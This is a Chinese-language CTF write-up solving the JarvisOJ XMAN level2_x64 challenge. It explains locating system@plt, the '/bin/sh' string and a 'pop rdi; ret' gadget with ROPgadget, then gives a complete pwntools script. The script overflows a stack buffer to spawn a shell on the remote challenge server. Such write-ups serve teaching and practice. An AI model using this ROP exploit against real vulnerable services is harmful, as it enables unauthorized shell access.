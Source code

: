 ```yaml
---
title: JarvisOJ——XMANlevel2_x64题解
date: 2018-08-10 13:10:00
tags:
- CTF
categories:
- CTF
---
```


## 一、解题思路 ##

checksec查看，是老样子，和level0的情况一样。

![checeksec查看](/assets/img/checksec2(64).jpg)

对比level0_x64和level2_x64反汇编后的结果

-  vulnerable_function都一样
-  main函数有所不同。

![对比图1](/assets/img/diff2.jpg)

发现main函数中有system的调用，system函数本身位于libc库中，是通过PLT+GOT表实现调用的，一方面可以通过ELF模块获得system_plt,间接调用system函数。

函数列表中不在有level0的callsystem。但是字符串列表也没有“/bin/sh”

![对比图2](/assets/img/sys_str2.jpg)

没有callsystem，但是我们找到了main中有call system[位于程序本身的.text节,NO PIE,代码段静态不变]，可是少了参数的设置。

我在window下IDA反汇编level2_x64是可以看到“/bin/sh”的，在.data段中。或者用ROPgadget工具也可以找到“/bin/sh”[可能是linux上低版本IDA，不能获取.data段的字符串]

![window下IDA反汇编level2_x64](/assets/img/win_bin.jpg)

> .data:0000000000600A90	00000008	C	/bin/sh

在地址0x0000000000600A90下，我的Ubuntu的IDA情况是：

![“bin/sh”字符串的某种数值格式](/assets/img/bin_str.jpg)
![“bin/sh”字符串](/assets/img/bin_str0.jpg)

![“bin/sh”字符串](/assets/img/bin_str00.jpg)

确实是存在的只是没有记录在string windows窗口里面。


> 如果在linux的IDA下要找.data节的字符情况，快捷键ctrl+S显示各个节，双击.data跳转到.data节

通过以上的分析就获得了调用system函数的固定地址和"/bin/sh"的固定地址["/bin/sh"位于程序本身的.data节，NO PIE情况下，数据节固定地址]

----------

万事俱备，就差把"/bin/sh"的地址pop到%rdi，作为system函数的参数。

这时候就要**引入搜索ROP链的工具ROPgadget.**[ROP链：以**ret**/call/jmp结尾的程序片段，用以实现指令片段执行流的衔接]

> ROPgadget --binary level2_x64 --only "pop|ret"|grep rdi     

> --binary引入二进制文件

![利用ROPgadget工具获得所需的汇编指令](/assets/img/ropgadget.jpg)

运气不错，搜索到了。pop %edi + ret，可以通过布置栈空间，利用pop %edi将"/bin/sh"的地址pop到%rdi，再ret将call system的地址pop到%rip中


注：ROPgadget工具不仅仅能搜索ROP链那么简单，还可以在程序的汇编代码中搜索字符串。

> ROPgadget --binary level2_x64 --string "/bin/sh"

![利用ROPgadget工具搜索字符串](/assets/img/ropstr0.jpg)



## 二、解题步骤 ##

    #!/usr/bin/puthon
    from pwn import *
    context(arch="amd64",os="linux",log_level="debug")
    re = remote("pwn2.jarvisoj.com",9882)
    
    sys_addr = 0x000000000040063E 
	#或者elf = ELF("./level2_x64")和sys_addr = elf.plt['system']来得到system函数调用地址
    bin_addr = 0x0000000000600a90
    pr_addr = 0x00000000004006b3
    
    payload = 'a'*0x80 +'a'*0x8 + p64(pr_addr) + p64(bin_addr) + p64(sys_addr)
    
    
    re.recvline()
    re.send(payload)
    #一开始在这里加了re.recvline()，以为要接收“hello world”，结果运行python xlevel2_x64.py就停止了。
	#原因很显然，没有和远程靶机交互[即还未到达re.interactive()]，远程主机创建了一个shell子进程，一直等待着输入
	#但是我们的攻击主机在等待接收recvline，于是就僵住了。
	#所以要先交互interactive()，接入远程靶机的shell，进行输入ls+cat flag
    re.interactive()


![获得靶机shell,拿到flag](/assets/img/ans2.jpg)



参考链接：

- https://blog.csdn.net/qq_38204481/article/details/80954747
- https://www.cnblogs.com/ZHijack/p/7940686.html